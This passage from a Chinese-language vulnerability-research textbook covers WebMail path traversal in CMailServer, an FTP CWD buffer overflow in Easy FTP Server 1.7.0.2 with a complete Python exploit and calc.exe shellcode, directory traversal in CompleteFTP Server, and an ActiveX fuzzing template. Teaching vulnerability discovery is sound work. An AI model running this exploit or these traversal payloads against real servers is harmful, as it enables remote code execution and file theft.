现在，我们看一看刚才的那个网址 http://127.0.0.1/mail/download.asp?urlOfAttach=%2Fmaildata%2Ftest%2F1259812019818%2F1%2FUCInputUriList%2Edat。虽然看起来很复杂，但是这其中的 %2F 就是 / 符号的编码，而 %2E 就是小数点的编码，为此，我们通过将跨目录符号组合 ../ 编码为 %2E%2E%2F 的方式，就可以跨越目录限制来测试一下，通过 CMailServer 邮件服务软件的 WebMail 系统能否下载服务器上的任意文件。

这里以下载 CMailServer 邮件服务软件安装根目录下的 config.ini 文件为例，我们重新构造网址为：http://127.0.0.1/mail/download.asp?urlOfAttach=%2Fmaildata%2F%2E%2E%2Fconfig%2Eini。在浏览器中输入该网址，回车，如图 7.59 所示。


图 7.59 成功跨目录下载到服务器上的其他文件

丝毫没有任何错误，CMailServer 邮件服务软件的 WebMail 系统轻松地让我们下载到了 config.ini 文件，一个典型的安全漏洞被我们发现了。

其实，对于邮件服务软件来说，WebMail 功能的提供是对用户体验的一个丰富，但是，随之而来的就是安全隐患的问题。由于 WebMail 的结构等同于一个 Web 应用程序，所以我们就可以将测试 Web 应用程序漏洞的技巧拿来测试邮件服务软件的 WebMail。不要将思路仅仅固定在溢出等方面，思路决定出路，就是这个道理。

### 思考题

电子邮件服务程序的漏洞挖掘主要从哪几个方面入手？

### 答案

电子邮件服务程序由于是以处理邮件协议为主要功能，为此，可以从修改邮件协议数据内容方面来测试其安全性；这一方面主要是利用 Python 脚本代码来实现测试。而对于一些电子邮件程序来说，它自身还带有 Web Mail 的功能，为此，我们还可以从这里入手测试一些属于 Web 应用程序的安全漏洞，例如跨站漏洞。

## 第8章 FTP服务程序的漏洞挖掘技术

FTP 服务程序也许对于一般读者来说使用的并不多，但是，对于那些建立过自己个人网站的读者来说，FTP 服务程序就不会陌生了。

当我们想要在互联网上建立一个属于自己的网站的时候，我们都会去购买“网站空间”，这些网站空间其实就是某台互联网上服务器的一部分文件空间。我们可以将自己的网站系统传输到这些网站空间当中，然后给这个网站空间捆绑一个域名，也就是网址，我们就可以通过网址访问到自己的网站了。而要想把自己的网站系统传输到网站空间当中，就需要借助 FTP 服务程序。

无论国内还是国外的网站空间提供商，几乎都使用 FTP 服务程序来帮助用户实现网站空间内容更新。由此看来，互联网上的很多网站服务器其实都是一台 FTP 服务程序服务器，仅从这一点，你就能够看出 FTP 服务程序的重要性。随之而来的问题就是，如果这些 FTP 服务程序存在安全漏洞，那么后果是不堪设想的，恶意攻击者就可以借助 FTP 服务程序的漏洞来渗透进入服务器，从而控制大量的网站系统，造成网站管理员的巨大经济利益损失。

本章我们就来学习一下关于 FTP 服务程序安全漏洞的挖掘方法，还是请大家牢记一点，我们是在享受掌握安全技术的乐趣，不要使用这些技术去搞破坏。

## 8.1 FTP协议的简介

我们在本书第 2 章中与大家一起学习过一个针对“GoodFTP Server”程序挖掘出缓冲区溢出漏洞的例子。在那个例子中，我们第一次接触到了 FTP 服务程序。

FTP 服务程序是为用户提供 FTP 服务的软件，它也是互联网上使用最为广泛的一类应用软件。

众所周知，FTP 服务程序的目的是为了提供 FTP 服务，而 FTP 服务的目的就是为用户提供对文件的共享访问。用户只需要通过发送 FTP 命令就可以获取或者上传文件到 FTP 服务程序所在的服务器上；并且 FTP 服务程序允许多个用户使用，于是，用户之间就可以共享自己的文件了。

用户在使用 FTP 命令与 FTP 服务程序进行文件信息交换时，这些 FTP 命令都必须符合一个名为“FTP 协议”的要求。

FTP 协议是基于 TCP 协议之上的一种明文协议。FTP 协议默认情况下工作在 21 号端口，它的具体命令被规定在一个国际标准当中，即 RFC0959 文档。

当用户连接远程 FTP 服务程序时，整个过程中都必须使用 FTP 协议，一般的交互过程为：发送 FTP 用户名、发送 FTP 用户密码、登录 FTP 服务程序、使用其它 FTP 命令交互文件数据、使用 Quit 命令退出 FTP 服务程序。

## 8.2 FTP协议的手工测试

在第 2 章中我们讲过，一条完整的 FTP 命令是由三个部分组成的，其格式如图 8.1 所示。


在一条完整 FTP 命令当中，基本命令部分不能被随意修改，但是，用户数据部分却是可以由用户随意指定的。为此，我们就可以构造不同的用户数据来组合成为一条 FTP 命令发送给被测试 FTP 服务程序，从而测试出 FTP 服务程序所可能存在的安全漏洞。

在第 2 章中，我们利用 FTPFuzz 程序来帮助完成针对 FTP 命令的构造和测试工作，这一次，我们需要自己动手利用 Python 脚本代码来实现手工的 FTP 命令测试。下面我们将结合一个具体漏洞挖掘案例，来看一看如何利用 Python 脚本代码挖掘 FTP 服务程序的安全漏洞。

### 8.3 Easy FTP Server v1.7.0.2 CWD 命令远程溢出漏洞的挖掘

首先，还是测试环境的介绍。

- 操作系统：Windows XP SP2 32 位版本
- 漏洞利用工具运行环境：ActivePython
- 漏洞测试目标软件：Easy FTP Server
- 辅助软件：OllyICE 1.0

Easy FTP Server 是开放源代码的一款简易 FTP Server 程序，它的官方网址是 http://code.google.com/p/easyftpsvr/。这次我们要测试的目标程序是 Easy FTP Server 的 1.7.0.2 版本。


从官方网址上下载到 Easy FTP Server v1.7.0.2 的程序压缩包 easyftpsvr-1.7.0.2.zip，解压该压缩包文件到虚拟机系统当中。Easy FTP Server v1.7.0.2 程序不需要安装，初次使用时它只有两个可执行文件，分别为 ftpbasicsvr.exe 和 Ftpconsole.exe。


运行 Ftpconsole.exe 程序会出现程序的使用界面，如图 8.2 所示。同时，Easy FTP Server v1.7.0.2 程序会在当前目录下生成三个 xml 配置文件及名为“anonymous”的文件目录，如图 8.3 所示。

其中，anonymous 文件目录是由 Easy FTP Server v1.7.0.2 程序在默认情况下会自动设置一个名为“anonymous”的用户作为 FTP 的初始用户，而 anonymous 文件目录就是该用户登录 Easy FTP Server v1.7.0.2 程序后的使用文件目录。

运行 OllyICE 程序，打开“附加”功能，找到一个名为“ftpbasicsvr”的进程，该进程是 Easy FTP Server v1.7.0.2 程序的服务进程，用来提供 FTP 服务。如图 8.4 所示。

“附加”成功后，按 F9 功能键运行该进程。现在，新建一个记事本程序，键入如下 Python 测试代码（注意看文字部分的解释，同时，在保存测试代码时不要将汉字保存在内）。


```python
import socket, sys

if len(sys.argv) != 3:
    print "Usage: ./ftptest.py <Target IP> <Port>"
    sys.exit(0)

target = sys.argv[1]
port = int(sys.argv[2])
buffer = "a" * 272

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    connect = s.connect((target, port))   # 建立与FTP服务程序的TCP连接
    print "[+] Connected"
except:
    print "[!] Connection failed"
    sys.exit(0)

s.recv(1024)
s.send("USER anonymous\r\n")            # 发送FTP用户名anonymous
s.recv(1024)
s.send("PASS anonymous\r\n")            # 发送FTP用户anonymous的密码anonymous
s.recv(1024)
print "[+] Sending buffer..."
s.send("CWD " + buffer + "\r\n")       # 发送FTP命令CWD，同时构造一个272字节长度的buffer

try:
    s.recv(1024)
    print "failed"
except:
    print "ok"
```

这段代码中唯一需要注意的地方在于，**buffer** 这个变量是一个用来测试缓冲区溢出的核心变量，它的长度为 272 个字节。我们将这个变量与 FTP 协议中的 CWD 命令（“CWD”命令是一个用来改变当前文件目录的命令）结合，一同发送给被测试的目标程序 Easy FTP Server v1.7.0.2。保存上述测试代码为 ftptest.py。

打开 Windows 系统下的命令行窗口，切换到 ftptest.py 所在目录，键入“ftptest.py 127.0.0.1 21”回车。


此刻，OllyICE 监视到 ftpbasicsvr 进程发生了严重的运行错误，如图 8.5 所示。图 8.5 中的警告意思是说程序运行到内存地址为 61616161 的地方，该地址为一个非法内存地址，程序无法继续执行。

为了能够了解程序出错的具体原因，我们通过 Ftpconsole.exe 程序主界面上的绿色三角箭头重启 ftpbasicsvr 进程，再次用 OllyICE 程序附加到 ftpbasicsvr 进程。然后，在 OllyICE 程序的代码窗口中，按下 Ctrl+G 组合键，在其中输入“recv”回车，如图 8.6 所示。

回车后，OllyICE 代码窗口就会跳转到“recv”函数的开始处，如图 8.7 所示。

在“mov edi, edi”这条指令一行的最左侧按 F2 键下一个断点，这么做的目的是由于 Easy FTP Server 程序在接收发送给它的数据时必须调用 recv 函数，为此，我们在 recv 函数上下断点后，就可以一步一步跟踪 Easy FTP Server 程序究竟是怎样处理我们发送给它的 CWD 命令了。


下好断点后，按 F9 功能键让 Easy FTP Server 程序运行起来，同时，再次按照前面的方法，在命令行下运行我们的 Python 测试代码 ftptest.py。

运行 ftptest.py 代码后，你会发现 OllyICE 程序马上就会发生中断，如图 8.8 所示。

这是由于 Easy FTP Server 程序接收到了 ftptest.py 发送给它的 FTP 用户名，但是，我们要跟踪的是 Easy FTP Server 程序处理 CWD 命令的情况，所以，直接按 Ctrl+F9 组合键，然后，再次按 F9 键，你会发现 OllyICE 程序再次中断下来，这是因为 Easy FTP Server 程序接收 FTP 用户名时是一个字节一个字节接收的，所以，需要我们再次按 Ctrl+F9 组合键，然后，再次按 F9 键。这个过程需要一直反复，直到我们发现 OllyICE 程序右侧的寄存器窗口，如图 8.9 所示。


此刻，证明 Easy FTP Server 程序已经开始接收 CWD 命令，在连续按下 F9 键 274 次后，我们需要使用 F7 功能键，逐步跟踪 Easy FTP Server 程序。

通过不断地步步跟踪，程序进入到处理 CWD 命令的函数后发生了缓冲区溢出，如图 8.10 所示。

此刻，程序利用指令“sub esp, 124”开辟一个 292 个字节的栈空间（其中 124 是十六进制表达式，它的十进制值其实是 292），这个空间用来存储的就是 CWD 命令后的那段数据，也就是 ftptest.py 中 buffer 变量的值，以及一些寄存器数值。接着程序继续运行，在程序最后要返回的时候，它调整栈指针到栈中 304 字节处，如图 8.11 所示。


这个时候，ESP 寄存器的值为 00B0FC70，ESP 寄存器指向的内存地址正好就是 61616161，而 61 正好对应的就是 ftptest.py 中 buffer 变量中的字母“a”的十六进制表示。于是，在函数返回的时候，过长的 buffer 变量覆盖了该函数的返回地址，造成一个典型……的缓冲区溢出漏洞。为此，我们就可以修改 ftptest.py，使其成为一个带有真正攻击性质的 exploit 代码。代码如下（取自网络；运行环境为英文版的 Windows XP SP3 系统），攻击成功后会让运行有 Easy FTP Server v1.7.0.2 的服务器上弹出一个计算器程序运行界面。


图 8-11 此刻函数返回地址已经被数值 61616161 覆盖

```python
import socket, sys

print
print "*********************************************"
print "*   Easy FTP Server 1.7.0.2 Remote BoF      *"
print "*           Discovered by: athleet           *"
print "*      jonuller88[at]googlemail[dot]com      *"
print "*********************************************"
print

if len(sys.argv) != 3:
    print "Usage: ./easyftp.py <Target IP> <Port>"
    sys.exit(1)

target = sys.argv[1]
port = int(sys.argv[2])

# Calc.exe PoC shellcode - Tested on XP Pro SP3 (Eng)
shellcode = (
"\xba\x20\xf0\xfd\x7f"
"\xc7\x02\x4c\xaa\xf8\x77"
"\x33\xc0"
"\x50"
"\x68\x63\x61\x6c\x63"
"\x54"
"\x5b"
"\x50"
"\x53"
"\xB9\xC7\x93\xC2\x77"
"\xFF\xD1"
"\xEB\xF7"
)

# 以上的 ShellCode 调用 WinExec 函数，将 calc 作为参数传递给该函数，
# 该函数就会执行系统自带的 calc.exe 程序，也就是计算器程序。

nopsled = "\x90" * (268 - len(shellcode))
ret = "\x58\xFD\x9A\x00"
payload = nopsled + shellcode + ret  # 272 bytes

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
try:
    connect = s.connect((target, port))
    print "[+] Connected!"
except:
    print "[!] Connection failed!"
    sys.exit(0)

s.recv(1024)
s.send('USER anonymous\r\n')
s.recv(1024)
s.send('PASS anonymous\r\n')
s.recv(1024)
print '[+] Sending payload...'
s.send('CWD ' + payload + '\r\n')
try:
    s.recv(1024)
    print '[!] Exploit failed :-('
except:
    print '[+] Exploited :-)'
```

以上，我们利用 Python 脚本代码实现了手工挖掘 FTP 服务程序安全漏洞。虽然看起来过程有些辛苦，但是那是为了能够让大家理解被测试 FTP 服务程序出错的原因。如果你不愿意这样做，你完全可以通过不断修改 CWD 命令中 buffer 变量的长度，找出多长的时候就会造成 Easy FTP Server 出错，然后利用本书第 2 章讲过的方法覆盖 Easy FTP Server 中的返回地址，从而控制 Easy FTP Server 程序来运行你的 ShellCode。

### 8.4 FTP 服务程序下的特殊漏洞

也许对于 FTP 服务程序的安全漏洞挖掘，大多数的人都只重视针对缓冲区溢出这样的安全漏洞。但是，每一类的软件都有着不同于其他软件的安全漏洞，我们不能把目光仅仅锁定在针对传统安全漏洞的挖掘上。

由于 FTP 服务程序的作用是共享服务器上的文件，针对不同的用户，FTP 服务程序共享的文件也是不一样的。例如一个管理员用户就可以访问所有的文件，而一个低权限用户也许只能访问某个特定目录下的文件，不能访问其他目录下的文件信息。但是，如果 FTP 服务程序没有做好安全防范，一个低权限的用户就很有可能跨越自己所能够访问的文件目录，从而访问到原本不属于他能访问范围的文件目录当中。这样一来，万一这个低权限的用户有什么不良目的，他就可以删除或者修改原本他不能够访问的文件信息，造成对 FTP 服务程序所在服务器上文件信息的破坏和泄漏。我们称这种漏洞为 FTP 服务程序的跨目录访问漏洞。下面，我们将结合一个具体案例看一看如何挖掘 FTP 服务程序的跨目录访问漏洞。

### 8.5 CompleteFTP Server 跨目录访问漏洞

首先，我们来介绍一下本次学习的软件环境。

| 项目 | 内容 |
|---|---|
| 操作系统 | Windows XP SP2 32 位版本 |
| 漏洞测试目标软件 | CompleteFTP Server |

CompleteFTP Server 是由 Enterprise Distributed Technologies Ltd 开发的一款 FTP 服务程序。这里用来演示的目标程序是这款 FTP 服务程序的 3.3.0 版本。

正确安装好 CompleteFTP Server 程序，在 Windows 系统菜单中找到 Complete FTP Manager 选项。Complete FTP Manager 是 CompleteFTP Server 程序的管理端。运行 Complete FTP Manager，输入安装过程中设置的管理密码，即 Administrator password，点击“Connect to server”按钮，如图 8.12 所示。


图 8.12 通过 Complete FTP Manager 连接 CompleteFTP Server 程序

连接成功后，会出现 Complete FTP Manager 管理主界面，如图 8.13 所示。点击“Users”按钮，切换到 FTP 用户管理界面当中，如图 8.14 所示。默认情况下，CompleteFTP Server 程序提供了两个用户：一个是“anonymous”，该用户虽然存在，但是被程序禁止使用，除非重新设置；另外一个是“default_windows”，这个用户可以使用，同时该用户没有被设置密码。请大家注意，此时 default_windows 这个用户的 FTP 目录是“/MyDocuments”，这个目录其实对应的就是当前 Windows 系统 Guest 用户的“My Documents”文件目录。


图 8.13 Complete FTP Manager 管理主界面

现在，打开命令行窗口，在其中键入命令 `ftp 127.0.0.1`。注意这里我们将 CompleteFTP Server 程序安装在了本地计算机系统上，而不是虚拟机当中。按照要求输入用户名“default_windows”回车，这时 CompleteFTP Server 程序要求输入密码，直接回车，我们将成功登录 FTP 服务，如图 8.15 所示。


图 8.14 FTP 用户管理界面

此时，我们所在的 FTP 目录是本地系统当中 Guest 用户的“My Documents”文件目录，使用 `ls` 命令查看当前目录下存在哪些文件以及文件目录，如图 8.16 所示。当前目录下只有两个文件目录，即“My Music”和“My Pictures”，以及一个文件 `desktop.ini`。


图 8.15 在命令行下成功登录 CompleteFTP Server 程序

一般来说，一个 FTP 用户登录后所使用的文件目录是严格规定好的，用户只能访问当前目录下的子文件目录，绝对不能访问到当前目录的上层目录。但是，CompleteFTP Server 程序在处理这个安全机制时却发生了低级错误。


图 8.16 使用 ls 命令查看当前目录下的文件列表信息

在当前命令行窗口中键入命令 `cd ..\..\..\..\..\..\..\` 回车，CompleteFTP Server 程序提示我们切换到了目录“/MyDocuments/../../../../../../../”下，如图 8.17 所示。再次键入命令 `ls`，来查看一下当前目录下的文件以及文件目录，如图 8.18 所示。


图 8.17 使用 cd 命令切换当前用户所在文件目录

我们发现这一次显示的文件列表信息与图 8.16 中的完全不一样，我们竟然能够看到“WINDOWWS”这个系统目录，这意味着此刻我们已经进入了 Windows 系统所在分区的根目录下。你一定诧异这究竟是怎么发生的？秘密就在于我们前面输入的命令“cd ..\..\..\..\..\..\..\”。


图 8.18 此刻使用 ls 命令查看当前目录下的文件列表已经发生了变化

根据 FTP 协议规定，cd 命令是一个目录切换命令，其作用是切换当前目录到用户指定的目录当中。“..\”这个符号的作用则代表着上层目录的意思，也就是说，“c:\windows\..\”这样的目录表示的意思其实就等于“c:\”。并且“..\”与“../”这两个符号的作用一样。按照道理来说，CompleteFTP Server 程序在判断 cd 命令想要切换的目的文件目录时，应当首先判断目的文件目录中是否存在“..\”或者“../”这两个敏感符号。但是 CompleteFTP Server 程序的开发者只判断了“../”这一个敏感符号，而对于“..\”却没有进行判断，如图 8.19 所示。


图 8.19 CompleteFTP Server 程序只限制了 ../ 符号

当我们使用“cd ../”这样格式的命令时，CompleteFTP Server 程序马上提示我们该操作不允许。

小小一个判断上的疏漏，导致任意一个 FTP 用户竟然可以随意跨越文件目录，利用 GET 命令任意获取指定目录下的文件信息。这就使得 CompleteFTP Server 程序所在的服务器上的文件信息被泄露，对服务器安全造成一定威胁。

## 思考题：

- 1. 本章为大家演示的漏洞挖掘实例中，我们的漏洞挖掘思想是什么？
- 2. FTP 服务程序的跨目录访问漏洞的基本原理是什么？

## 答案：

- 1. 本章案例中，由于被挖掘漏洞的软件属于 FTP 服务程序，这类程序以处理 FTP 协议数据为主要工作，所以，我们必须从 FTP 协议入手来进行漏洞挖掘。同时，由于 FTP 协议中的数据部分是用户可以控制的，所以，我们通过修改 FTP 协议中数据部分的长度来测试 FTP 服务程序是不是存在缓冲区溢出漏洞。
- 2. FTP 服务程序的跨目录访问漏洞主要是因为程序在处理表示父目录的字符串“../”或者“..\”时没有进行安全限制造成。

## 第9章 ActiveX 控件漏洞挖掘技术

ActiveX 控件漏洞是近几年倍受关注的一类安全漏洞，因为 ActiveX 控件的安全漏洞常常会被利用成为“网页木马”。“网页木马”是一种借助网页文件实现远程攻击用户系统的新攻击手段。由于微软的 Windows 操作系统采用了大量的安全保护机制，所以现在黑客们想要发现一个能够实现远程攻击进入 Windows 系统的安全漏洞是非常困难的。但是，有人发现利用 ActiveX 控件的安全漏洞，只要构建一个网页，用户一旦使用浏览器访问该网页，就能够实现远程在用户系统中安装木马病毒程序，从而实现远程入侵用户系统的目的。于是，ActiveX 控件漏洞很快成为安全界的“新宠”。所以，挖掘 ActiveX 控件安全漏洞绝对是一个令人兴奋的学习过程；本章就将带领大家一起进入 ActiveX 控件安全漏洞的挖掘实战当中。

### 9.1 ActiveX 控件的概念

#### 9.1.1 ActiveX 控件的由来

随着计算机编程技术的进步，微软提出了一种名为“组件”的概念。组件是一个可重用的模块，它是由一组处理过程、数据封装和用户接口组成的业务对象。组件的好处在于，它可以在一个称为容器（有时也称为承载者或宿主）的应用程序中使用，也可以作为独立过程单独使用；它可以由一个类构成，也可以由多个类组成，或者是一个完整的应用程序。这个很好理解，组件就像一块积木，你可以随意在自己的程序里面使用这块积木来补充你程序的功能。组件是一个完整的模块，也就是说它具有一个完整的功能。

比较流行的组件模型有 COM（Component Object Model，对象组件模型）、DCOM（Distributed COM，分布式对象组件模型）和 CORBA（Common Object Request Broker Architecture，公共对象请求代理体系结构）。其中 COM 技术的成功代表作就有 OLE 和 ActiveX。

COM 技术是 OLE 和 ActiveX 的核心技术，它让对象模型完全独立于编程语言。从 C++ 和 Java 的对象概念上，我们可以把 COM 看作是某种（软件）打包技术，即把它看作是软件的不同部分，按照一定的面向对象的形式，组合成可以交互的过程和一组支持库。COM 对象可以用 C++、Java 和 VB 等任意一种语言编写，并可以用 DLL 或作为不同过程工作的执行文件的形式来实现。使用 COM 对象的浏览器，无须关心对象是用什么语言写的，也无须关心它是以 DLL 还是以另外的过程来执行的。从浏览器端看，无任何区别。这样一个通用的处理技巧非常有用。例如，由用户协调运行的两个应用程序，可以将它们的共同作业部分作为 COM 对象间的交互来实现。为在浏览器中执行从 Web 服务器下载的代码，浏览器可把它看作是 COM 对象，也就是说，COM 技术也是一种打包可下载代码的标准方法（ActiveX 控件就是执行这种功能的）。甚至连应用与本机操作系统进行交互的方法也可以用 COM 来指定，例如在 Windows 和 Windows NT 中用的新 API，多数是作为 COM 对象来定义的。

1996 年微软在 COM 技术的基础上正式引入了 ActiveX 控件，用它来帮助开发者实现组。

## 第9章 ActiveX 控件漏洞挖掘技术

ActiveX 控件是 Windows 系统下常用的一种组件技术。一个 ActiveX 控件要想被 Windows 系统调用或者被其他软件调用，它首先必须成功向系统注册自己，也就是在 Windows 系统的注册表中写入该 ActiveX 控件的一些基本信息。

一般来说，ActiveX 控件写入注册表的信息主要有控件的名称以及一个叫做“CLSID”的键值。

CLSID 是全局唯一，为此，CLSID 常常就代表了 ActiveX 控件本身。要想找到 ActiveX 控件对应的 CLSID 数值，我们可以打开 Windows 系统注册表中的“HKEY_CLASSES_ROOT\CLSID”这个键值，就可以看到系统中所有已经注册的 ActiveX 控件，如图 9.1 所示。


每一个 CLSID 键值下的 InprocServer32 键值中记录着该 CLSID 所代表的 ActiveX 控件文件完整名称，如图 9.2 所示。而“ProgID”键值则对应着该 CLSID 数值的控件名称，如图 9.3 所示。要调用 ActiveX 控件的方法很简单，可以通过 CLSID 数值或者 ActiveX 控件的控件名称来调用。

对于我们来说，我们最关心的就是利用网页文件来调用 ActiveX 控件。下面的代码就演示了如何利用 HTML 语言来调用 Flash ActiveX 控件的方法。

```html
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="550" height="300">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="550" height="300"></embed>
</object>
```

这段代码中最为重要的地方在于“object”这个 HTML 标签，它有一个属性“classid”，这个就是用来填写要被调用 ActiveX 控件 CLSID 数值的地方。“D27CDB6E-AE6D-11cf-96B8-444553540000”这个数值就代表着 Flash ActiveX 控件的 CLSID 数值。当用户使用浏览器访问包含这段代码的网页文件时，用户的浏览器在解析到“object”这个标签时，就会自动调用系统中的 Flash 控件，从而播放 1.swf 文件。

> **小提示：** 请大家注意，由于 ActiveX 控件是 Windows 系统下的一种组件技术，为此，我们只能在 Windows 系统下来研究 ActiveX 控件的安全漏洞。同时，这里所使用的浏览器都默认用的是 Windows 系统自带 Internet Explorer 浏览器。

#### 9.1.2 ActiveX 控件的区分

近几年，ActiveX 控件的安全漏洞层出不穷。一些常用应用软件的 ActiveX 控件漏洞更是被安全界强烈关注。如果你曾留心观察过，ActiveX 控件的安全漏洞似乎往往会带来一场网络上的安全风暴。“网页木马”这个东西就是随着 ActiveX 控件的安全漏洞而被人们熟知的。很难想象，一个原本是明文的网页文件竟然能够实现在用户系统中安装二进制的木马病毒程序。

其实，网页木马之所以能够成功实现对用户系统的攻击，在用户系统中安装木马病毒程序，最主要的原因就是网页木马是借助了 ActiveX 控件的安全漏洞。当用户使用浏览器软件访问到包含网页木马的恶意网页文件时，网页文件中的代码就会自动调用存在安全漏洞的 ActiveX 控件，并且为其传送带有攻击代码的恶意数据，从而实现攻击用户系统。看到这里，你就会纳闷，为什么通过简单的网页文件就能够实现让浏览器自动调用 ActiveX 控件呢？


图 9.4 查看是否有 Implemented Categories 键值

实际上并不是所有的 ActiveX 控件都能够借助网页文件通过浏览器软件来实现自动加载和运行，这需要两个必要的条件。

第一个条件是被安装进入系统的 ActiveX 控件必须被标记为可安全执行脚本（as safe for scripting）。要想判断一个 ActiveX 控件是否为可安全执行脚本，只需在注册表中该 ActiveX 控件对应的 CLSID 项下查看是否有 Implemented Categories 此项即可，如图 9.4 所示。

第二个条件是 ActiveX 控件没有被设置 KillBit 位。根据微软 MSDN 的解释：KillBit 是 ActiveX 控件的兼容性标志 DWORD 值在注册表中的特定值。这不同于取消 ActiveX 控件中的“可安全执行脚本”选项。当“可安全执行脚本”选项被取消时，Internet Explorer 仍会调用该控件，然后用警告消息提示您；根据您的选择，可能会运行该控件。但是，在为 ActiveX 控件设置了 KillBit 后，只要不启用 Internet Explorer 中的“对未标记为安全的 ActiveX 控件初始化并执行脚本”选项，Internet Explorer 就不会调用该控件。

所以一旦某一个 ActiveX 控件被设置了 KillBit，它就很难再被浏览器自动调用。这样就可以有效防止 ActiveX 控件的漏洞被恶意利用。

检查一个 ActiveX 控件是否被设置 KillBit 位的方法是，打开注册表编辑器，定位到 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\<ActiveX 控件的 CLSID>` 键值下，检查兼容性标志 `Compatibility Flags` 键值是否为十六进制的 400。如果是，则代表该 ActiveX 控件被设置了 KillBit 位。

> **小贴士：** 如果你在检查某个 ActiveX 控件是否被设置 KillBit 位时，打开注册表中 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Internet Explorer\ActiveX Compatibility\` 键值时，没有发现对应该 ActiveX 控件的 CLSID 键值，那么也代表该 ActiveX 控件没有被设置 KillBit 位。KillBit 位的设置是针对具体某个 ActiveX 控件的，必须在相应的 ActiveX 控件的 CLSID 键值下设置 `Compatibility Flags` 键值。同时，它的设置不会影响到系统的工作效率。

一般来说，满足了以上两个条件的 ActiveX 控件才会被浏览器自动调用。不然，浏览器在调用 ActiveX 控件时会给出一个警告提示或者给出一个出错提示，如图 9.5、9.6 所示。


图 9.5 浏览器调用 ActiveX 控件给出警告提示

我们在进行针对 ActiveX 控件安全漏洞的挖掘时，首先第一步工作就要对 ActiveX 控件是不是能够成功被浏览器自动加载做一个判断。如果被测试的 ActiveX 控件根本就不会被浏览器成功加载，那么我们也就没有必要花费时间挖掘这类 ActiveX 控件的安全漏洞。


图 9.6 浏览器调用 ActiveX 控件给出出错提示

### 9.2 手工挖掘漏洞的方法

#### 9.2.1 获取 ActiveX 控件接口

ActiveX 控件最大的作用就是能够独立完成一些任务，类似一个具有独立功能的应用程序。如果需要调用 ActiveX 控件来完成任务，我们必须通过调用 ActiveX 控件向外提供的外部接口，才能够利用 ActiveX 控件为我们工作。这个原理就类似于我们现在有一个刻录机，我们想要刻录光盘，首先需要知道这个刻录机是 DVD 刻录机，还是 CD 刻录机。我们如果用 DVD 光盘在 CD 刻录机上刻录数据，那么肯定是无法刻录成功的。

要想知道一个 ActiveX 控件提供了哪些外部接口供我们调用，我们就需要利用一个名叫 “OLEVIEW” 的应用程序。


图 9.7 OLEVIEW 程序使用界面

OLEVIEW 这款程序是微软集成开发环境 Microsoft Visual C++ 6.0 所自带的一款小工具。它的作用就是用来查看系统中已经注册的 ActiveX 控件的外部接口。打开 OLEVIEW 程序，如图 9.7 所示。

它其中有一个 “Type Libraries” 的选项，该选项就包含了所有系统注册过的 ActiveX 控件信息。点击 “Type Libraries” 选项前面的小十字架，我们就可以看到系统中所有的 ActiveX 控件，如图 9.8 所示。


图 9.8 系统中所有的 ActiveX 控件信息

以某一个控件为例，双击该控件后会出现图 9.9 的画面，如图 9.9 所示。

由于一个 ActiveX 控件文件可以同时向系统注册多个控件类，图 9.9 中蓝色图标代表的就是该控件所有注册的控件类。

选择查看 “IISExtComputer” 这个控件类，展开该蓝色图标前面的小十字架，如图 9.10 所示。

此时，OLEVIEW 右侧的窗口中显示的 uuid 数值其实就是该控件类对应的 CLSID。


图 9.9 某一个 ActiveX 控件的外部接口信息

同时，我们看到展开后的 “IISExtComputer” 这个控件类下出现了一个红色三角图标。这对应 “IISExtComputer” 这个控件类的内部接口集合，也就是 “IISExtComputer” 这个控件类所有用户接口的集合。

有时，一个控件类可能会有多个用户接口集合，但是一般情况下，都以第一个接口集合作为默认接口集合。所以，我们要想获得控件类的用户接口，只需点击第一个红色三角图标前的小十字架即可，如图 9.11 所示。


图 9.10 uuid 就是 ActiveX 控件的 CLSID 值


图 9.11 展开 IISExtComputer


图 9.12 OLEVIEW 可以分析出每一个接口函数的名称与其参数类型

OLEVIEW 给出了一个名叫 “Methods” 的文件夹选项，这就是 OLEVIEW 分析出来的关于 “IISExtComputer” 这个控件类的所有外部接口信息，展开该选项，如图 9.12 所示。

OLEVIEW 以列表的形式清晰地展现了 “IISExtComputer” 这个控件类的所有外部接口。

如果要查看某个外部接口的名称或者参数类型，可以从图 9.12 左侧的列表中单击该外部接口名称，OLEVIEW 会在右侧的窗口中显示出该外部接口的所有信息，如图 9.13 所示。

图 9.13 中我们可以看到一个名叫 “Put” 的外部接口，这个外部接口是一个函数接口，包含两个参数，其中第一个参数是一个字符串型的参数。


图 9.13 OLEVIEW 会在右侧的窗口中显示出该外部接口的所有信息

#### 9.2.2 利用网页模板挖掘 ActiveX 控件漏洞

有了获得 ActiveX 控件外部接口的方法，现在我们的工作就是针对这些外部接口进行安全测试。要知道，ActiveX 控件的外部接口类似于一个函数，它处理来自外部提交给它的数据。在处理这些外部数据的过程中，ActiveX 控件很有可能就会发生安全漏洞，例如处理一个过长的外部数据时没有考虑到缓冲区的大小，从而造成缓冲区溢出漏洞。这个时候，我们就可以借助这个缓冲区溢出漏洞来执行 ShellCode 代码。

由于我们需要借助网页文件来挖掘 ActiveX 控件的安全漏洞，因为通过网页文件发现的 ActiveX 控件安全漏洞可以被制作成“网页木马”程序，危害很大，同时研究价值也很大。既然这样，我们就需要利用 HTML 语言编写出一个借助网页文件测试 ActiveX 控件漏洞的模板，代码如下：

```html
<object classid='clsid:00000000-0000-0000-0000-000000000000' name='evil'></object>
<script>
  evil.Vulfunc("");
</script>
```

对这段模板代码做一个解释。代码 `object` 这一行是用来完成对被测试 ActiveX 控件进行调用的工作。在实际测试某一个 ActiveX 控件的时候，需要修改该行中 `clsid` 后的具体数值，也就是 `00000000-0000-0000-0000-000000000000`。我们需要从注册表中获得被测试 ActiveX 控件对应的 CLSID 来替换这里。而 `Vulfunc("")` 这个部分就代表了被测试的 ActiveX 控件外部接口。

利用该模板网页文件挖掘 ActiveX 控件漏洞的基本思路是这样的：

- 建立一个字符串变量或者数字变量。
- 如果是字符串将这个变量赋值为一定长度的字符串；如果是数字变量则赋值为 0 或者极大的数字。
